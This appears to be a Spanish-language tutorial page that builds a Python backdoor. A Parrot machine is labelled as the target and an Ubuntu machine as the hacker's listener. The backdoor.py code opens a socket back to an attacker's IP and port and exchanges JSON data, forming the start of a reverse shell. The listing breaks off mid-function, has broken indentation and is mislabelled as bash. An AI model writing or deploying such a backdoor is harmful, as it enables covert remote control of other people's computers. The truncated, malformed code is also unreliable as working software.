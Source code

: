 # Parrot (Target) 

![mejora de backdoor parrot](https://user-images.githubusercontent.com/97669969/157429977-cf4873b8-718a-47fa-ab66-c4a5e469a7f6.png)


# Ubuntu (Hacker) 

![mejora de listener ubuntu](https://user-images.githubusercontent.com/97669969/157430065-cc51ba25-7964-4e99-b3ac-d1742a7328e1.png)
*  Listener corriendo correctamente. 



# MEJORA DE CODIGO IMPLEMENTAMOS ENVIO DE DATOS CON JSON  

 
 * backdoor.py 

 
```bash
import socket 

import subprocess 

import json 

 
 

class Backdoor: 

 
 

    def __init__(self,ip,port): 

self.connection = socket.socket(socket.AF_INET,socket.SOCK_STREAM) 

self.connection.connect((ip,port)) 

self.connection.send("\n [+] Conexion establecida \n".encode()) 

     

    def envio_seguro(self, datos): 

json_data = json.dumps(datos) 

self.connection.send(json_data.encode()) 

 
 

    def reception_segura(self): 

     json_data = "" 

        while True: 

 
          try: 

json_data = self.connection.recv(1024).decode("utf-8") 

```